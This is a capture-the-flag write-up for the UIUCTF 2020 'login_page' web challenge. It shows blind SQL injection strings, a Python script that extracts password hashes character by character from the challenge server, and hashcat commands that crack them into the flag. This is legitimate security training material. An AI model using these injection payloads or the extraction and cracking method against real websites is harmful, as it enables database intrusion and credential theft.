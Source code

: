 ```yaml
---
layout: post
title: "UIUCTF 2020 Writeups"
categories: ctf
---
```


## Introduction {#intro}
{: style="text-align: center"}

| Challenge Name | Category | Solves | Points |
|:--------------:|:--------:|:------:|:------:|
|[login_page](#login_page) | Web | 23 | 200 |


----------------

## login_page {#login_page}
{: style="text-align: center"}
#### Category: Web | Solves: 23 | Points: 200
{: style="text-align: center"}

----------------

{:refdef: style="text-align: center;"}
![login_page challenge description](https://i.imgur.com/mCYRHDL.png){: .imgCenter}
{: refdef}

The site is rather simple, with only a small login box and a user lookup feature.  Since we're told the site is running SQLite, it's a safe we're looking for something revolving around an injection. We try searching for just the SQLite wildcard "%" (which matches any string of 0 or more characters) and we're presented with a nice list of all the users in the database. 

{:refdef: style="text-align: center;"}
![user list found using sqlite wildcard](https://i.imgur.com/p5ULjCj.png){: .imgCenter}
{: refdef}

From here, we try to log in as Alice and are told we have the wrong password, but also given a password hint. 

{:refdef: style="text-align: center;"}
![login hint for alice](https://i.imgur.com/24imHr2.png){: .imgCenter}
{: refdef}

After playing around with injections for a little while, we find a nested SELECT query which proves to be extremely useful. By querying the `sqlite_master` table we can ask for data from any column in the database, but we can't actually SEE it. When we combine the nested SELECT query with a conditional AND statement, we can start to piece together the contents of those columns.

Through trial and error, we find that there are three basic ways in which the server can respond to our queries: with data, with no data, or with an error. Each of these happens in a different situation and gives us more insight into the structure of the database.

First, since we already know `USERNAME` exists, we use this as a baseline for a known-good query. We see that we get user data back when a specific column exists.
`%" AND username in (SELECT username FROM sqlite_master where username like "%") --`

Next, we try to query columns for users we know don't exist.  This simply returns no information at all, without giving us any errors.
`%" AND username in (SELECT username FROM sqlite_master where username like "FAKE") --`

Lastly, we try a non-existent column to establish a baseline response for faulty queries.  When this is the case, we get the message `ERROR: Something went wrong!` We also get this error when we forget to comment out otherwise good, working queries by ending the query with the SQL single-line comment symbol `--`
`%" AND username in (SELECT username FROM sqlite_master where FAKE like "%") --`

Using this knowledge we can guess at what the password column must be called, and after a couple tries we find that "password_hash" doesn't throw us any errors.  Now that we know what we're up against, we can switch up our query and use our old wildcard friend to brute-force the hash 1 character at a time by using a query like:
`%" AND username in (SELECT username FROM sqlite_master where password_hash like "%") --`

Below is Python script that will be responsible for doing all of the heavy lifting. If what we know of the hash so far is correct for that user, the user's information is returned (e.g if Bob's hash starts with `41%`.) If any character of the hash so far is wrong (e.g if we ask if Bob's hash starts with `4F%`) the application won't return us any info at all. This allows us to check for the existence of the `bio` string for each user to make sure we're always on the right track.

{% highlight python %}
import requests
chars = '1234567890abcdef'                    
names = ['alice','bob','carl','dania','noob'] 

def hashfinder(x, name):                      
    url = 'https://login.chal.uiuc.tf/search'
    query = {'request' : name+'" AND username in (SELECT username FROM sqlite_master where password_hash like "'+x+'%") -- -'}
    req = requests.post(url, data=query)      
    if 'is '+name in req.text:                
        return(x)                             

for name in names:                            
    pwhash=''                                 
    while len(pwhash) < 32:                   
        for y in chars:                       
            if hashfinder(pwhash+y, name):    
                pwhash+=y                     
                if len(pwhash) == 32:         
                    print(name +':'+ pwhash)  
{% endhighlight %}

When run, this bad boy gives us the output of:

| name | hash |
|:----:|:----:|
| alice | 530bd2d24bff2d77276c4117dc1fc719 |
| bob | 4106716ae604fba94f1c05318f87e063 |
| carl | 661ded81b6b99758643f19517a468331 |
| dania | 58970d579d25f7288599fcd709b3ded3 |
| noob | 8553127fedf5daacc26f3b677b58a856 |

Now that we have extracted all the hashes, we can get to work trying to crack them using the hints we are given.  Luckily, there is only one hash without a corresponding hint (`8553127fedf5daacc26f3b677b58a856`) and with a simple Google search we find out that the password is `SoccerMom2007`. We use this password to sign in and are given the first part of our flag : `uiuctf{Dump`
Side note: the password/hash combo is on Google because it is in the very popular [RockYou wordlist](https://github.com/praetorian-code/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) that is very commonly used in CTF-like challenges and is even included in Kali Linux (can be found in `/usr/share/wordlists/rockyou.txt.gz`)

The second and third hashes are cracked very quickly with a very basic Hashcat command. It's worth noting that Hashcat has a built in mode for double MD5 (-m 2600), so Bob's password isn't really any harder to crack than Alice's as far as the commands go (although double MD5 is obviously slightly slower to crack.) If you want to learn more about the basics of cracking hashes with Hashcat, you can do so [here](https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/)

Hash number four requires us to build our own wordlist in the format of [Greek God name](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-gods-txt) + [U.S. State name](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-states-txt). This can be accomplished by finding these two separate lists on Google, and mixing with a [quick Python script](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-combine-py). I'm not going to include it here since it's mundane, but you can click the links if you want to see the lists and code behind this task. We found that the password ended up being `DionysusDelaware` and claimed the 4th piece of the flag.

The fifth and final hash is the most interesting one of the bunch.  The password hint is in Arabic and translates to `My favorite animal (6 characters only)` (this was later updated to specify _Arabic_ characters.) We ran it against a few animal wordlists to make sure it wasn't going to be THAT easy before deciding to crack the hash by guessing Arabic characters. This is tricky, but doable running Hashcat with the following arguments:

`hashcat -m 0 -a 3 --hex-charset -1 d8d9dadb -2 808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf -o output hashes "?1?2?1?2?1?2?1?2?1?2?1?2"`

On this [UTF-8 encoding table,](https://utf8-chartable.de/unicode-utf8-table.pl?start=1536) Arabic letters span 256 characters from `D880` to `DBBF`. We split up these two bytes and create a mask for each, meaning that each single Arabic letter is represented in the mask by a `?1?2` pair. Once we get the rule written, the hash is cracked rather quickly. With the final hash cracked, all we have to do is put together the five pieces of the flag and claim out 200 points!

Here's what all the data looks like when we're all done:

| name | hint | hash | password | flag |
|------|------|------|----------|------|
| noob | `(none)` | 8553127fedf5daacc26f3b677b58a856 | SoccerMom2007 | `Here's part 0 of the flag: uiuctf{Dump` |
| alice | `My phone number (format: 000-000-0000)` | 530bd2d24bff2d77276c4117dc1fc719 | 704-186-9744 | ` _4nd_un` |
| bob | `My favorite 12 digit number (md5 hashed for extra security) [starts with a 10]` | 4106716ae604fba94f1c05318f87e063 | 5809be03c7cc31cdb12237d0bd718898 | `h45h_63` |
| carl | `My favorite Greek God + My least favorite US state (no spaces)` | 661ded81b6b99758643f19517a468331 | DionysusDelaware | `7_d4t_` |
| dania | `الحيوان المفضل لدي (6 أحرف عربية فقط)` | 58970d579d25f7288599fcd709b3ded3 | طاووسة | `c45h}` |


----------------

{:refdef: style="text-align: center;"}
[--- Back to Top ---](#intro)
{: refdef}

----------------
